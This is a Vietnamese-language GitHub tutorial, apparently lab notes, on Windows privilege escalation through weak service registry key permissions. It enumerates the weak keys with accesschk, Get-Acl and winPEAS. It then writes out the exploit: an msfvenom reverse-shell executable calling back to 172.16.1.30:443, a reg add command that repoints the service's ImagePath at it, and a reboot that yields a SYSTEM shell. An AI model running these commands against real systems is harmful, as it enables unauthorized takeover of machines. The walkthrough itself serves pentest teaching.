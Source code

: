 # Liệt kê các Weak Registry Key Permissions

Khi liệt kê các quyền của khóa đăng ký yếu, mục tiêu của chúng tôi là tìm các quyền yếu trên subkeys trong HKLM\SYSTEM\CurrentControlSet\Services registry key. Đây là registry key được liên kết với tất cả các dịch vụ có trên hệ thống

# Săn lùng các quyền của khóa đăng ký yếu: accesschk.exe(Thuộc bộ công cụ Sysinterals)

Link tải: https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
sau khi tải xuống ta có 2 bản là bản 64 và 32 bit
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/c05b0108-c5a9-4613-b5f5-4ab7418df137)

Để biết máy nạn nhân sử dụng hệ điều hành nào ta dùng câu lệnh:
```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/f459ba2f-4b1d-44cc-83b5-e8b2ea108e1c)

Các quyền của người dùng nên quan tâm như :

- Người dùng cụ thể mà chúng tôi hiện đang đăng nhập với tên (%USERNAME%)
- Authenticated Users
- Everyone
- BUILTIN\Users
- NT AUTHORITY\INTERACTIVE

Khi sử dụng accesschk, trước tiên chúng tôi muốn kiểm tra người dùng hiện tại của mình vì người dùng hiện tại của chúng tôi có thể sẽ thuộc hầu hết nếu không phải tất cả các nhóm đó theo mặc định. Điều này có thể giúp loại bỏ công việc phỏng đoán khi cố gắng tìm xem quyền của nhóm nào đã được đặt cho khóa đăng ký mà chúng tôi đang truy vấn.

```
accesschk64.exe "%USERNAME%" -kvuqsw hklm\System\CurrentControlSet\services -accepteula
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/f311fc13-fcd8-4890-bf0c-0680f6531d8b)

Kết quả cho thấy người dùng hiện tại của chúng tôi có ALL_ACCESS đối với khóa đăng ký. Điều này có nghĩa là các quyền trên khóa đăng ký được đặt thành Kiểm soát hoàn toàn cho người dùng này cụ thể hoặc một trong các nhóm mà người dùng đó thuộc về.

Ngoài ra, chúng ta có thể truy vấn bất kỳ nhóm nào bằng cách thay thế giá trị trong dấu ngoặc kép từ dấu phẩy trên:

```
accesschk64.exe "Everyone" -kqswvu hklm\System\CurrentControlSet\services -accepteula

accesschk64.exe "Authenticated Users" -kqswvu hklm\System\CurrentControlSet\services -accepteula

accesschk64.exe "BUILTIN\Users" -kqswvu hklm\System\CurrentControlSet\services -accepteula

accesschk64.exe "NT AUTHORITY\INTERACTIVE" -kqswvu hklm\System\CurrentControlSet\services -accepteula

```

# Săn lùng các quyền khóa đăng ký yếu: PowerShell + Linux-Fu

Để tìm kiếm các quyền của khóa đăng ký dịch vụ yếu là sử dụng PowerShell để trích xuất thông tin từ tất cả các khóa con trong khóa đăng ký HKLM\SYSTEM\CurrentControlSet\Services bằng câu lệnh:

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\service_keys.txt
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/dab6a2a7-9360-46d3-9ae4-63f96160d772)

Sau đó tao download file về. Vì tệp này rất lớn nên chúng tôi sẽ cần thực hiện một số Linux-fu để cắt giảm đầu ra xuống chỉ còn những thông tin thú vị để chúng tôi có thể phát hiện ra ngoại lệ của mình dễ dàng hơn.

```
cat service_keys.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/11ef639e-2d25-440b-85b3-48c079e14d3c)

Chúng ta có thể kiểm chứng trên máy nạn nhân sau khi tìm được bằng câu lệnh

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\Juggernaut | Format-List
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/6bc3fe60-87a6-4246-ad77-53999e43bd82)

# Săn lùng các quyền của khóa đăng ký yếu: winPEAS.exe

Có lẽ cách dễ nhất để tìm kiếm các quyền khóa đăng ký dịch vụ yếu là sử dụng tập lệnh liệt kê leo thang đặc quyền cuối cùng: winPEAS.exe
Tải bản sao winPEASx64.exe xuống nạn nhân.

![image-10](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/82a7cd5a-c566-4c5e-b84a-67b07268ea40)

Sau khi thực thi winPEAS, chúng tôi sẽ tìm thấy mọi khóa đăng ký dịch vụ bị định cấu hình sai trong phần Thông tin dịch vụ .
![image-12](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/6a79ebeb-da2b-4da2-a77e-6cd0c5132f1a)

Sau khi đã tìm được khóa ta bằng đầu khai thác

# Liệt kê khóa đăng ký dịch vụ yếu mà chúng tôi tìm thấy

Sau khi tìm thấy một khóa đăng ký dịch vụ thú vị có quyền yếu, chúng tôi cần thu thập thông tin về dịch vụ và tệp thực thi mà nó trỏ tới.
Chúng ta có thể liệt kê dịch vụ trực tiếp bằng lệnh cmd.exe hoặc PowerShell.
Sử dụng cmd.exe:

```
reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\Juggernaut"
```
![image-24](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/82650e43-2907-4458-9f03-4085ba890dec)

Sử dụng PowerShell:

```
Get-Item -Path Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\Juggernaut
```
![image-25](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/42b50773-dc62-4775-9b48-0d88edf0a7ac)

Ta có thể thấy rằng “ImagePath” trỏ đến C:\Program Files\Juggernaut\Juggernaut.exe , đây là dịch vụ thực thi được chạy khi dịch vụ được khởi động.
Chúng ta cũng có thể thấy dịch vụ đó thực thi dưới dạng LocalSystem (SYSTEM) và có giá trị bắt đầu là 2, có nghĩa là “Tự động khởi động”.
Nếu chúng tôi cố gắng liệt kê các quyền trên thư mục C:\Program Files\Juggernaut hoặc tệp Juggernaut.exe, chúng tôi có thể sẽ thấy rằng chúng tôi không có quyền thay thế tệp nhị phân bằng tệp độc hại.

```
icacls "C:\Program Files\Juggernaut\Juggernaut.exe"
icacls "C:\Program Files\Juggernaut"
```
![image-16](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/cd53372e-7f93-4672-82bb-5cb5ae35a226)

Từ kết quả đầu ra, ta có thể thấy rằng nhóm được liệt kê duy nhất mà người dùng hiện tại của chúng ta thuộc về là nhóm BUILTIN\Users, không có (F), (M) hoặc (W) bên cạnh. Điều này có nghĩa là chúng tôi không thể giả mạo tệp từ ImagePath gốc.

Vì chúng tôi có quyền sửa đổi khóa đăng ký nên chúng tôi có thể thay đổi ImagePath để trỏ đến tệp mà chúng tôi có quyền kiểm soát.

Do dịch vụ này tự động khởi động nên chúng tôi sẽ cần kích hoạt một sự kiện để khởi động lại dịch vụ hoặc cố gắng dừng rồi khởi động lại. Thật may mắn cho chúng tôi, trước đó chúng tôi đã thấy rằng người dùng chuẩn của chúng tôi có SeShutdownPrivilege, nghĩa là chúng tôi có thể khởi động lại hệ thống để buộc dịch vụ khởi động lại.
![image-27](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/4e4ac5a1-1c0b-4090-997c-3f0263a93c3a)

# Khai thác khóa đăng ký dịch vụ yếu mà chúng tôi tìm thấy

## Tạo một tệp thực thi độc hại

Để khai thác điều này, tất cả những gì chúng ta cần làm là tạo một tệp thực thi độc hại, chuyển nó cho nạn nhân, chỉnh sửa ImagePath của khóa đăng ký, khởi động lại dịch vụ và sau đó chúng ta sẽ nhận được shell HỆ THỐNG. Vì vậy, hãy bắt đầu bằng việc tạo ra tệp thực thi của chúng ta.
Trong ví dụ này, chúng tôi sẽ sử dụng msfvenom để tạo tệp thực thi độc hại của mình.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f exe -o pwnt.exe
```
![image-17](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/29c48bba-dca2-44e2-87c4-296bbd7c1e02)

Khi tệp thực thi đã sẵn sàng hoạt động, chúng tôi cần chuyển nó sang máy nạn nhân. Vì chia sẻ vẫn đang mở nên hãy sử dụng nó.
![image-18](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/eacdcb4c-d7d2-49f7-9396-5c0bce1ac6b3)

# Khai thác Khóa đăng ký dịch vụ yếu để lấy SYSTEM Shell

Có tệp thực thi độc hại trên máy chủ nạn nhân, chúng tôi sẵn sàng thực hiện cuộc tấn công của mình và nâng cấp lên trình bao SYSYEM.
Điều đầu tiên chúng ta cần làm là thay đổi ImagePath trên khóa đăng ký dịch vụ Juggernaut để trỏ đến tệp thực thi độc hại của chúng ta. Chúng ta có thể làm điều này bằng lệnh sau:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Juggernaut" /v ImagePath /t REG_EXPAND_SZ /d "C:\temp\pwnt.exe" /f
```
![image-28-1024x249](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/2e34ed59-10f6-4ba9-abf6-142b7c716a85)

Sau khi sửa đổi thành công ImagePath để trỏ đến tệp thực thi độc hại của chúng tôi, chúng tôi cần quay lại máy tấn công của mình và thiết lập trình nghe netcat trên cổng 443.
Với mọi thứ đã sẵn sàng, việc còn lại chỉ là khởi động lại máy.

```
shutdown /r /t 0
```
Máy khởi động lại và lớp vỏ ban đầu của chúng tôi bị cắt ra; tuy nhiên, sau khoảng 20 giây, shell HỆ THỐNG sẽ xuất hiện trên trình nghe của chúng tôi!

![image-29](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/696d5873-a6a9-4004-9737-4a90b653c774)
